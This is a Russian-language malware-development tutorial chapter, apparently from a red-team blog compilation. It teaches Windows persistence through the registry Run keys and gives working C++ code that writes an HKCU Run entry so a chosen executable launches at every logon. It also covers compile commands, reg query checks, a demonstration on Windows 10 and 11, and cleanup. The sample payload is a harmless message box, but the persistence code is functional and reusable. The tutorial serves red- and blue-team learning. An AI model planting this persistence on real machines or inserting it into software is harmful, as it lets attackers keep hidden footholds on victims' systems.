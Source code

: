 \newpage
\subsection{67. Разработка вредоносного ПО: закрепление (persistence) - часть 1. Ключи автозапуска реестра. Пример на C++.}

![pers](./images/51/2022-04-20_09-43.png){width="80%"}    

Этот раздел открывает главу о техниках и трюках закрепления вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования "классического" трюка закрепления: ключей автозапуска в реестре.    

### ключи автозапуска

Добавление записи в "ключи автозапуска" в реестре приведёт к выполнению указанного приложения при входе пользователя в систему. Эти приложения будут выполняться в контексте пользователя и иметь уровень разрешений, соответствующий его учётной записи.    

Следующие ключи автозапуска создаются в Windows по умолчанию:    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`    

![pers](./images/51/2022-04-20_18-57.png){width="80%"}    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`    

![pers](./images/51/2022-04-20_18-58.png){width="80%"}    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`    

![pers](./images/51/2022-04-20_18-59.png){width="80%"}    

> Обратите внимание, что это может использоваться как один из способов анти-VM (VirtualBox).    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`    

![pers](./images/51/2022-04-20_18-59_1.png){width="80%"}    

Злоумышленники могут использовать эти конфигурационные пути для запуска вредоносного ПО и обеспечения его персистентности после перезагрузки системы. Они также могут маскировать записи в реестре, делая их похожими на легитимные программы.    

### практический пример

Рассмотрим практический пример. Допустим, у нас есть *"вредоносное ПО"* `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Скомпилируем его:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/51/2022-04-20_19-08.png){width="80%"}    

Сохраним его в папку `Z:\\2022-04-20-malware-pers-1\`:    

![pers](./images/51/2022-04-20_19-10.png){width="80%"}    

Теперь создадим скрипт `pers.cpp`, который создаст ключи реестра для автозапуска `hack.exe` при входе в Windows:    

```cpp
/*
pers.cpp
windows low level persistense 
via start folder registry key
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/20/malware-pers-1.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-20-malware-pers-1\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, логика здесь самая простая. Мы просто добавляем новый ключ в реестр. Ключи реестра можно добавлять через терминал в ключи автозапуска для обеспечения персистентности, но так как я люблю писать код, я хотел показать, как сделать это с помощью нескольких строк кода.    

### демонстрация

Скомпилируем наш скрипт `pers.cpp`:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/51/2022-04-20_19-20.png){width="80%"}    

Сначала проверим ключи реестра на машине жертвы:    

```powershell
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/51/2022-04-20_09-35.png){width="80%"}    

Затем запускаем `pers.exe` и проверяем снова:   

```powershell
.\pers.exe
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/51/2022-04-20_09-39.png){width="80%"}    

Как видите, новый ключ добавлен, как и ожидалось.    
Теперь проверим всё в действии: выйдем из системы и войдём снова:    

![pers](./images/51/2022-04-20_09-40.png){width="80%"}    

![pers](./images/51/2022-04-20_09-40_1.png){width="80%"}    

![pers](./images/51/2022-04-20_09-44.png){width="80%"}    

Pwn! Всё работает идеально :)    

После завершения эксперимента удаляем ключи:    

```powershell
Remove-ItemProperty -Path \
"HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" \
-Name "hack"
reg query \
"HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/51/2022-04-20_09-46.png){width="80%"}    

### Windows 11

Этот метод также работает на `Windows 11`:    

![pers](./images/51/2022-04-21_10-29.png){width="80%"}    

![pers](./images/51/2022-04-21_10-30.png){width="80%"}    

![pers](./images/51/2022-04-21_10-30_1.png){width="80%"}    

![pers](./images/51/2022-04-21_10-30_2.png){width="80%"}    

![pers](./images/51/2022-04-21_10-31.png){width="80%"}    

И очистка системы:    

![pers](./images/51/2022-04-21_10-32.png){width="80%"}    

### Заключение

Создание ключей реестра для выполнения вредоносного приложения во время входа в Windows - один из старейших трюков в арсенале красных команд. Различные злоумышленники и известные инструменты, такие как Metasploit, Powershell Empire, предоставляют эту возможность, поэтому опытные специалисты синих команд смогут выявить такую вредоносную активность.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[исходный код на github](https://github.com/cocomelonc/2022-04-20-malware-pers-1)    
